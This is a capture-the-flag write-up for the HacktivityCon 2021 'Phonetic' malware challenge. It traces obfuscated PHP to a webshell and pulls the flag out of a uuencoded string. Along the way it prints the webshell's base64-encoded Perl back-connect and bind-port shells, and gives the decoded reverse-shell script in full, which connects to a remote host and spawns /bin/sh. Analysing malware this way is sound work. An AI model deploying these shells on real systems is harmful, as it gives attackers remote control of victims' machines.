




# Phonetic - HackivityCon 2021

* Category: Malware
* Points: 362
* Solves: 112
* Solved by: Tensor

## Description
It's easy to find the flag... just sound it out! 

## Solution
We were presented a file containing obfuscated php code:


We decided to run it on a PHP deobfuscated, luckily we found this website ```https://wtools.io/php-sandbox/cg```
which allows us to run PHP code, displaying to us the output and attempts to deobfuscate the PHP code. We ran it with 
```PHP Version 5.6.31```. 

The output deobfuscated code looks like this:



And the output from running the code:



We can't seem to find any useful information from just running the code without analysing the intermediate execution.
So, we inserted some ```var_dump``` to dump out information during execution.

One of the var_dump we inserted gave us some useful information.
```
var_dump(deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302"));
```

A chunk of base64 string is dumped:



We proceeded to decode it on cyberchef and obtained another php script. The script looks like a php webshell and there are around 1500 lines of code. We briefly scanned through the script and found an interesting function ```actionNetwork```.

```
function actionNetwork() {
	wsoHeader();
	$back_connect_p="IyEvdXNyL2Jpbi9wZXJsCnVzZSBTb2NrZXQ7CiRpYWRkcj1pbmV0X2F0b24oJEFSR1ZbMF0pIHx8IGRpZSgiRXJyb3I6ICQhXG4iKTsKJHBhZGRyPXNvY2thZGRyX2luKCRBUkdWWzFdLCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKTsKJHByb3RvPWdldHByb3RvYnluYW1lKCd0Y3AnKTsKc29ja2V0KFNPQ0tFVCwgUEZfSU5FVCwgU09DS19TVFJFQU0sICRwcm90bykgfHwgZGllKCJFcnJvcjogJCFcbiIpOwpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7Cm9wZW4oU1RESU4sICI+JlNPQ0tFVCIpOwpvcGVuKFNURE9VVCwgIj4mU09DS0VUIik7Cm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsKbXkgJHN0ciA9IDw8RU5EOwpiZWdpbiA2NDQgdXVlbmNvZGUudXUKRjlGUUE5V0xZOEM1Qy0jLFEsVjBRLENEVS4jLFUtJilFLUMoWC0mOUM5IzhTOSYwUi1HVGAKYAplbmQKRU5ECnN5c3RlbSgnL2Jpbi9zaCAtaSAtYyAiZWNobyAke3N0cmluZ307IGJhc2giJyk7CmNsb3NlKFNURElOKTsKY2xvc2UoU1RET1VUKTsKY2xvc2UoU1RERVJSKQ==";
	$bind_port_p="IyEvdXNyL2Jpbi9wZXJsDQokU0hFTEw9Ii9iaW4vc2ggLWkiOw0KaWYgKEBBUkdWIDwgMSkgeyBleGl0KDEpOyB9DQp1c2UgU29ja2V0Ow0Kc29ja2V0KFMsJlBGX0lORVQsJlNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCd0Y3AnKSkgfHwgZGllICJDYW50IGNyZWF0ZSBzb2NrZXRcbiI7DQpzZXRzb2Nrb3B0KFMsU09MX1NPQ0tFVCxTT19SRVVTRUFERFIsMSk7DQpiaW5kKFMsc29ja2FkZHJfaW4oJEFSR1ZbMF0sSU5BRERSX0FOWSkpIHx8IGRpZSAiQ2FudCBvcGVuIHBvcnRcbiI7DQpsaXN0ZW4oUywzKSB8fCBkaWUgIkNhbnQgbGlzdGVuIHBvcnRcbiI7DQp3aGlsZSgxKSB7DQoJYWNjZXB0KENPTk4sUyk7DQoJaWYoISgkcGlkPWZvcmspKSB7DQoJCWRpZSAiQ2Fubm90IGZvcmsiIGlmICghZGVmaW5lZCAkcGlkKTsNCgkJb3BlbiBTVERJTiwiPCZDT05OIjsNCgkJb3BlbiBTVERPVVQsIj4mQ09OTiI7DQoJCW9wZW4gU1RERVJSLCI+JkNPTk4iOw0KCQlleGVjICRTSEVMTCB8fCBkaWUgcHJpbnQgQ09OTiAiQ2FudCBleGVjdXRlICRTSEVMTFxuIjsNCgkJY2xvc2UgQ09OTjsNCgkJZXhpdCAwOw0KCX0NCn0=";
	
    ...
}
```

The back_connect_p variable contains a base64 encoded string, decoding it reveals the following perl script:
```
#!/usr/bin/perl
use Socket;
$iaddr=inet_aton($ARGV[0]) || die("Error: $!\n");
$paddr=sockaddr_in($ARGV[1], $iaddr) || die("Error: $!\n");
$proto=getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Error: $!\n");
connect(SOCKET, $paddr) || die("Error: $!\n");
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");
my $str = <<END;
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
end
END
system('/bin/sh -i -c "echo ${string}; bash"');
close(STDIN);
close(STDOUT);
close(STDERR)
```


Within it contains the suspicious looking uuencoding:
```
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
```

We decoded the text using an online uudecoder and obtained the flag Hooray!!!:

